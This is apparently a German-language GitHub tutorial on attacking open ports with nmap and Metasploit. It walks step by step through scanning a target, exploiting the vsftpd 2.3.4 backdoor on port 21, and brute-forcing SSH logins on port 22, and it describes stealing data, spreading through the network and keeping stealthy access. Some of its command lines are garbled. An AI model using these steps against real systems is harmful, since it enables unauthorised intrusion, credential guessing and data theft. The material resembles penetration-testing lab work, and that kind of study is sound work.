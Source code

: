 Exploit Ports:
Um einen Port zu exploiten muss man zuerst wissen welchen Port man angreift. Dazu wird ein Portscan benötigt um zu sehen welche Ports offen sind.

``sudo nmap -p- -sV -O {IP-Adresse des Ziels}``
  
 <h2>Port 21:</h2>

``service postgresql start`` <br>
``service postgresql status``
  
Danach wird ein passwort verlangt

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134168995-94cda790-8dd0-4b10-aa4d-6c21b3ead126.png" alt="PStatus Serie" width="600" height="250">
  
  
Danach öffnet man die "msf console": ``msfconsole``
  
In dieser Konsole sucht man nach einem Exploit für diese Version:
  
 ``search vsftpd 2.3.4``
 So sieht es aus wenn ein Exploit existiert:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134171809-b1af4e1a-e66e-42e8-a819-9b2ee5c7ad60.png" alt="PStatus Serie" width="600" height="250">

``loit/unix/ftp/vsftpd_234_backdoor`` <br>
``use exploit loit/unix/ftp/vsftpd_234_backdoor``
  
``show options``

<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179000-68e9e466-7846-439e-991a-19a5aa512d45.png" alt="PStatus Serie" width="700" height="150">

Hier sieht an wie die Konfuguration aussieht. Man Merkt recht schnell das man noch die IP adresse des Host eintragen muss, damit man den Port 21 exploiten kann.
  
``set RHOST <IP-Adresse des Ziels>``
  
 Danach kontrolieren mit: ``show options``
  
 Danach kann an einfah den Comand ``exploit`` absetzen:
 
   <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134179776-3da11699-69f9-4046-9d4c-dee49130c2b9.png" alt="PStatus Serie" width="600" height="250">
  
Da man nun im System ist kann man mit Befehlen wie ``WHOAMI`` oder ``$HOME`` sich auf dem Zielsystem umshehen, Daten klauen und seinen Zugrif auf andere Geräte im Netzwerk erweitern. 

<h2>Port 22:</h2>

Als erstes verbindet man sich it der Metasploitdatenbank. Für diese Aktion brauch man root Privilegien.
``service postgresql start`` <br>
``service postgresql status``

Danach öffnet man wieder die "msf console": ``msfconsole``


``use auxiliary/scanner/ssh/ssh_login``
Als nächstes kann man sich die Optionen anzeigen lassen: ``show options``

Wichtig den "rhost" zu setzen mit der IP-Adresse die man Angreiffen möchte.
``set rhosts IP-Adresse des Ziels``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134676800-d95a590a-606b-4ac2-9cf1-c73845384637.png" alt="PStatus Serie" width="620" height="70">

``set VERBOSE true``
Dieser Coammand sagt aus bei erfolgreichem erraten der Login Credentials wird der angrif abgebrochen.
``set STOP_ON_SUCCESS true``

Hier gibt man das file an wo sie die namen der möglichen User befinden.
``set USER_FILE Desktiop/Name_des_Files``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680053-3fe24806-1f11-435f-9bb6-67fc5bf6abb6.png" alt="PStatus Serie" width="150" height="125">

Hir gibt man das file an wo sie das File mit den Passwörtern befindet.
``set PASS_FILE Desktiop/name_des_Files``
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134680122-384e9f39-cf69-46c4-b8a6-f924ad5e7e4f.png" alt="PStatus Serie" width="150" height="125">

Mit run startet man die Bruteforce attacke: ``run``

Das grüne Plus signalisiert das es geklappt hat und die Bruteforce Attacke erfolgteich war:
<img style="float: left" src="https://user-images.githubusercontent.com/57325335/134681537-269891ce-d433-4cc4-97bd-5856a86a01a5.png" alt="completed attacke" width="670" height="250">

Mit folgendem Command kann eine Session mit den Ziel Aufgebaut werden. 
``sessions -i 1``

Mit dieser Session kann man alle möglichen Informationen über das Zielsystem herausfinden und seinen Zurgriff im Netzwerk erweitern oder Daten stehlen:
 <img style="float: left" src="https://user-images.githubusercontent.com/57325335/134683131-31681483-ce4f-45de-868f-6c3a52d6d647.png" alt="PStatus Serie" width="500" height="110">

Falls dein Eindringen unbemerkt bleibt und das Passwort oder der Username nicht geändert wird, kannst du dich einfach per ssh mit dem Zielsystem verbinden.
``ssh username@IP-Adresse_des_Ziels``

